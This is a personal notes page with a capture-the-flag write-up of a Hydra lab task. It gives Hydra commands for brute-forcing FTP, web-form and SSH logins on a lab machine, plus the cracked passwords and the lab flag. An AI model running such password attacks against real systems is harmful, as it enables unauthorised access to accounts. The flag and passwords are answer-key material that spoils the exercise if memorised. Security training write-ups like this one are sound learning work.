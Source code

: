 ```yaml
---
{"dg-publish":true,"permalink":"/my-digital-garden/","tags":["gardenEntry"],"created":"2025-02-06T18:51:33.711-05:00","updated":"2025-02-06T21:14:24.818-05:00"}
---
```


Testing 123

Trying this out again 


![](/img/user/Testing.png)




# Task 2 - Using Hydra

- Example command to brute force ftp    
    - `hydra -l user -P passlist.txt [ftp://MACHINE_IP](ftp://MACHINE_IP)`
- Another example
    - `hydra -l <username> -P <wordlist> 10.10.71.57 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`


| Option              | Description                                                                            |
| ------------------- | -------------------------------------------------------------------------------------- |
| -l                  | specifies the (SSH) username for login                                                 |
| -P                  | indicates a list of passwords                                                          |
| -t                  | sets the number of threads to spawn                                                    |
| http-post-form      | the type of the form is POST                                                           |
| path              | the login page URL, for example, login.php                                             |
| login_credentials | the username and password used to log in, for example, username=^USER^&password=^PASS^ |
| invalid_response  | part of the response when the login fails                                              |
| -V                  | verbose output for every attempt                                                       |



> [!Question]
> **Use Hydra to bruteforce molly's web password. What is flag 1?**

Going to the target IP address gives us a web login from with a username and password,

Checking the page source tells us that its using a "POST" method as the request type

Ran the command

```
hydra -l molly -P rockyou.txt 10.10.71.57 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect"
```

Using the username, molly, and the password, sunshine, allows us to make it through and login to find the flag.


Used the following command to find the SSH password: 

```
hydra -l molly -P rockyou.txt 10.10.71.57 -t 4 ssh
```


Then SSH'd into molly's machine to get the flag using the password, butterfly.


> [!Success] Answer
> `THM {c8eeb0468febbadea859baeb33b2541b}`
